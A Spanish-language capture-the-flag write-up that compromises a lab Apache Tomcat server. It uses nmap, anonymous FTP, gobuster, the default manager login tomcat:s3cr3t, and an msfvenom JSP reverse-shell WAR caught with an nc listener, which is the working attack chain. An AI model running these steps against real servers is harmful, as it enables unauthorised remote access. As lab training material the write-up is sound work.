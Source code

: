 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```
![alt text](image.png)

Vemos que nos muestra el puerto 21 abierto con el servicio FTP asociado, donde nos dice que el usuario por defecto esta habilitado y que tiene un archivo llamado `tompcat.txt`. Así que vamos a descargarlo.
```
ftp 172.17.0.2
user: anonymous
password:
get tomcat.txt
```
![alt text](image-1.png)

Veamos que contiene el archivo.
![alt text](image-2.png)

Vemos que nos da el usuario que es `tomcat`, y que le fata la password. Ahora vamos a enumerar el servicio Apache Tomcat 9.0.88.
![alt text](image-3.png)

Ahora vamos a intentar encontrar una especie de login para poder logear.
```
gobuster dir -u http://172.17.0.2:8080 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
```
![alt text](image-4.png)

Vemos que nos muestra una carpeta llamada `/manager`. Así que vamos a ver que esconde.
![alt text](image-5.png)

Vemos que nos muesra un login, así que vamos a probar la contraseñas por defecto.

![alt text](image-6.png)

Vamos a cojer solo las que empiezan por tomcat ya como nos mostraba el archivo txt. Tras porbar con la contraseña `s3cr3t`, vemos que hemos podido acceder.
![alt text](image-7.png)

Podemos observar que podemos subir archivos `.war`, así que podermos intentar realizar una reverse shell adjuntando un archivo malicioso. Pero antes vamos a crear el archivo.
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=6969 -f war > reverse.war
```
![alt text](image-8.png)

Una vez lo tenemos creado, nos vamos a poner a la escucha por el puerto que hemos elegido.
```
nc -lnvp 6969
```
![alt text](image-9.png)

Una vez estamos a la escucha, vamos a subir el archivo.
![alt text](image-10.png)
![alt text](image-11.png)

Ahora le daremos click, para poder ejecutar el archivo malicioso. Vemos que se ha ejecutado bien porque hemos obtenido la shell.
![alt text](image-12.png)